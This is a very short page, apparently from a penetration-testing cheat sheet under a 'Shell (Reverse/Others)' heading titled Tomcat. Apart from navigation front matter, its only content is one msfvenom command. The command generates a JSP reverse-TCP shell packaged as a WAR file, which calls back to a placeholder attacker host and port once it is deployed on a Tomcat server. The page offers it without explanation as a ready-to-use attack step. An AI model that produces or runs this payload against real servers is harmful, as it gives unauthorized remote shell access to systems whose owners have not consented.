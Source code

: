 ```yaml
---
title: Tomcat
parent: Shell (Reverse/Others)
layout: default
nav_order: 8
---
```


`msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o reverse.war`